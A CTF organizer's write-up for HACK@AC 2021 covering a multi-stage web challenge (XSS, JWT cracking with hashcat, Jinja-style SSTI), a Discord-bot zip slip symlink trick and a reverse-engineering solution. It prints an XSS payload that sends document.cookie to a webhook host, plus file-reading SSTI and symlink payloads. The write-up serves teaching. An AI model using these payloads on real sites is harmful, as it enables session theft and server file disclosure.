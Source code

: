 #HACK@AC 2021 Writeups by samuzora

HACK@AC is a CTF organized by the Anglo-Chinese School (Independent) Robotics Technology Society, held on 16 Oct 2021. I was part of the organizing team and made a grand total of 4 challenges (one got removed later on). It was generally quite a fun experience for all (excluding !help) and I learnt quite a bit from organizing this CTF, from dockerizing applications to debugging trivial typos. Below are writeups for some of the challenges, both made by me and by others.

[Web](#web)

[Misc](#misc)

[Unreleased](##Special---Unreleased)




## Web

### FatherBoat

Difficulty: Hard

Solves: 0 :<

Link: http://139.59.124.129:51000/

Description: You've heard of Mothership but have you heard of FatherBoat? Due to Mothership stealing all their visitors, the company couldn't make enough revenue to hire a good web dev. Before he left, he might have screwed over some stuff... Don't be too harsh on them please.

Author: Lucas

Intended Solution:
1. XSS
  Payload: `<script>fetch("https://webhook.site/unique-id/?c="+document.cookie)</script>`
  Explanation: The website tells us that one requires approval from the admin to post a story. Instead of getting approval from the admin, one can instead be the admin and thus bypass the approval process, especially since the admin seems to be sleeping/braindead. XSS is possible here as the story of the user is injected directly into the HTML DOM. The cookie is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ImZhbHNlIn0.OqbksdUdBezk8bCqbh7wJOBuHFIKGoKGkdbAiu9SiJk`
2. Hashcat
  Payload: `./hashcat.exe -a 3 -m 16500 ./.hash --increment ?l?l?l?l?l?l`
  Explanation: After obtaining the token from the admin and checking it out with jwt.io, it seems like even the admin isn't an admin, which sucks tbh. (blame it on the dev) So we have to crack the JWT secret. Luckily for us, the secret isn't very long, so it can be cracked easily using Hashcat (6 lowercase chars). The key is "father".
3. SSTI
  Payload: `{{get_file('flag.txt')}}`
  Explanation: After verifying ourselves as the admin, we can successfully submit stories. However, upon submitting a story, the website prompts us that "Server-side story sharing" has yet to be implemented. This is a direct hint towards Server Side Template Injection (SSTI), so one can test for possible SSTI with ``{{7*7}} or {{7*'7'}}``. Then at a loss of what exactly to do, one might attempt `{{config.items()}}` and stumble upon 2 important key-value pairs: `('BUILT_IN', 'get_file()'), ('FLAG', 'flag.txt')`. Afterwards it's easy, just `{{get_file('flag.txt')}}` to get the flag, `ACSI{gr4ndf4th3r_v3ssel}`.

Comments:

This challenge was made quite last minute, as we were kinda short of hard web challenges. The puppeteer was especially hard to set up. Originally I tried using the Python import of puppeteer, pyppeteer, but it turned out to be a nightmare. Afterwards I just set up an API for the JS puppeteer and the Python flask app to interact. According to inside info, HCI had already solved the XSS part, but they realized it was a multi-part challenge and just gave up :(. Hence 0 solves

## Misc

### !help

Difficulty: ~~Medium~~ **HARD**

Solves: 3 (all HCI btw)

Description: There's a bot in the CTF discord that seems unusually quiet. Maybe try DMing it? I hear he gives flags...

Author: Lucas

Intended Solution:

**Zip Slip**

The intended (obvious) solution was to exploit the fact that the bot only accepted .zip files in the !upload command. Admittedly, without sufficient experience this might have been hard to spot, but granted that the participants were allowed to google I thought that this wouldn't be too difficult. Anyway, the 2-liner command to generate the symlink and zip it is as follows: `ln -s /flag.txt link; zip -y payload.zip link`. Then !upload `payload.zip` and the bot will return the flag, `ACSI{symb0l1c_link5}`. For more info, click [here](https://snyk.io/research/zip-slip-vulnerability).

Comments:

I really underestimated the difficulty of this challenge. Originally, it was a much simpler and much easier directory traversal via the !image command which allows one to view any image/file in the bot's machine. However, *a certain person* said it was too easy and suggested a zip slip vulnerability instead. Sorry to all who attempted this challenge, I've heard your cries for *!help*, and will tone down the difficulty of similar challenges in the future. For the record, a total of 3 hints were given for this challenge, and a 4th would have been given had a certain flag hoarder from HCI not submitted his flag.

## Special - Unreleased

### revnew (RE)

Difficulty: HARD

Solves: NA

Description: NA

Author: Elijah

Solution:

(According to Elijah, I can just ignore all the mallocs so here goes nothing.) Decompile the provided binary in IDA64. First important line is `scanf("%s", s);`, this just takes in the user input into `s`. Also we have `srand(0x10F2Cu);`, which sets the seed to 69420 in decimal. Next is `v67 = 8 * ((unsigned __int64)&v9[7] >> 3);`, which apparently makes `v67` a pointer to `s` (idk how). Afterwards we have a for loop, which loops through `s` and calls `(rand() % 21 + 69) * s[i]` into v25. Note that the output of rand() can be replicated as the seed is known. Then `s[i] = v25`. Then `  strcpy(v23, "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000");` just means that v23 is set to `01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000` (important btw). Now we have another loop, which just loops through `s` and `dest += hex(s[i])`. Skipping through 25+ lines of arbitrary mallocs wait nvm we can't skim through cos the important statements are here and there... Brief summary: ```v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12``` Lastly, we come to a very primitive XOR gate, where v23 is xored with v15 to get our output. Pseudocode (python-like) of what just happened: ```s = input()
random.seed(69420)
v28 = 0
v69 = len(s)
v68 = v69 -1
v67 = 8 * (0 right shift 3)

for i in range(v69):
    v4 = rand()
    v25 = v4 % 21 + 69
    v25 = s[i] * v25
    v5 = v25
	s[i] = v5

v23 = "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000"

dest = ''

for i in range(v69):
	src = hex(s[i])
    dest += src

v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12

if v36 >= v35:
    v33 = v36
else:
    v33 = v35

for i in range(v33):
    if v23[i] == v15[i]:
		v9[i] = '0'
    else:
		v9[i] = '1'

print(v9)```

The way to approach this problem is to work backwards with what we have. So assuming the start of the output we want is ACSI{, we can work backwards to find out that `dest = 1d26 2730 22...` in hex. Afterwards, an RNG script was written in C to replicate `v4 = rand()`. Then converting each byte in `dest` to decimal and dividing it by the respective `v4`s, we obtain `[r` in binary converted to ASCII. Wait did I mention that `strcpy(s, "[redacted]");` was important? `strcpy(s, "[redacted]");` is important. Now, realize that Elijah is a sadist who likes to watch people suffer with the key right under their nose and decompile horrendous C code with mallocs littered everywhere and the correct input is actually `[redacted]`, so go ahead and input that to obtain the flag, `ACSI{th3_he4p_1s_a_1ie}`. Overall this challenge was ~~A NIGHTMARE THAT I SPENT 2 WEEKS ON~~ pretty easy. I hope you understand why this challenge was unreleased.
